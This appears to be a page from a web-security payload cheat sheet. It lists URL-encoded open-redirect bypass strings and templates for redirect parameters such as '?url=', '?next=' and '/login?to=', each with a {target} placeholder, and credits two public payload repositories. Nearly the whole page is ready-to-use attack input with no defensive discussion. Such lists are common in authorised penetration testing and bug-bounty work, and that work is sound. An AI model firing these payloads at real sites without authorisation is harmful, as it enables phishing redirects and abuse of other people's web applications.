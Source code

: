 ## Open Redirect

```
/%09/google.com
```

```
/%5cgoogle.com
```

```
//www.google.com/%2f%2e%2e
```

```
//www.google.com/%2e%2e
```

```
//google.com/
```

```
//google.com/%2f..
```

```
//\google.com
```

```
/\victim.com:80%40google.com
```

## Possible open redirect parameters

```
?url=http://{target}
```

```
?url=https://{target}
```

```
?next=http://{target}
```

```
?next=https://{target}
```

```
?url=https://{target}
```

```
?url=http://{target}
```

```
?url=//{target}
```

```
?url=$2f%2f{target}
```

```
?next=//{target}
```

```
?next=$2f%2f{target}
```

```
?url=//{target}
```

```
?url=$2f%2f{target}
```

```
?url=//{target}
```

```
/redirect/{target}
```

```
/cgi-bin/redirect.cgi?{target}
```

```
/out/{target}
```

```
/out?{target}
```

```
/out?/{target}
```

```
/out?//{target}
```

```
/out?/\{target}
```

```
/out?///{target}
```

```
?view={target}
```

```
?view=/{target}
```

```
?view=//{target}
```

```
?view=/\{target}
```

```
?view=///{target}
```

```
/login?to={target}
```

```
/login?to=/{target}
```

```
/login?to=//{target}
```

```
/login?to=/\{target}
```

```
/login?to=///{target}
```



**Open Redirect Payloads** by @cujanovic

https://github.com/cujanovic/Open-Redirect-Payloads


**Open Redirect Parameters** by @fuzzdb-project

https://github.com/fuzzdb-project/fuzzdb/blob/master/attack/redirect/redirect-urls-template.txt

